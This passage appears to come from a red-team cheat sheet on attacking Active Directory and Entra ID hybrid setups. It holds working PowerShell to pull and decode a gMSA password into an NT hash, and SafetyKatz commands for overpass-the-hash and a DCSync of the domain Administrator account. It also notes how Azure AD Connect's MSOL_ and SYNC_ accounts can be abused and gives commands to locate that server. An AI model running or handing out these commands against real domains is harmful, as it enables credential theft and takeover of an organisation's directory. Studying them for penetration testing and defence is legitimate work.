#### Retrieve password
```
$Passwordblob = (Get-ADServiceAccount -Identity pGMSA_<ID> -Properties msDS-ManagedPassword -server <DC IP>).'msDS-ManagedPassword'

Import-Module DSInternals.psd1

$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```

#### Overpass the Hash - Start session as GMSA
```
Loader.exe -Path SafetyKatz.exe -args "sekurlsa::opassth /user:pGMSA_<ID>$ /domain:<DOMAIN> /ntlm:<NTLM HASH> /DC:<DC FQDN> /run:cmd.exe" "exit"
```

#### Run DCSync
```
Loader.exe -Path SafetyKatz.exe -args "lsadump::dcsync /user:<DOMAIN>/Administrator /domain:<DOMAIN> /DC:<DC FQDN>" "exit"
```

## On premises to Entra ID
- https://aadinternals.com/post/on-prem_admin/

### Azure AD Connect
- When Azure AD Connect is configured. The `SYNC_` account and `MSOL_` account are created. (or `AAD_` if installed on a DC)
- The `SYNC_` account has the role `Directory Synchronization Accounts` and can reset any password within the cloud and the `MSOL_` and `AAD_` account have DCSync rights.
- The role is now shown in the Azure portal [Documentation](https://learn.microsoft.com/en-us/azure/active-directory/roles/permissions-reference#roles-not-shown-in-the-portal)
- Passwords for both the accounts are stored in SQL server on the server where Azure AD Connect is installed and it is possible to extract them in clear-text if you have admin privileges on the server.
- A lot of the attacks uses https://github.com/Gerenios/AADInternals

#### Enumerate server where Azure AD connect is installed (on prem command)
```
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Properties * | select SamAccountName,Description | fl
```

#### Enumerate server where Azure AD connect is installed (Azure command)
```
Import-Module .\AzureAD.psd1
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
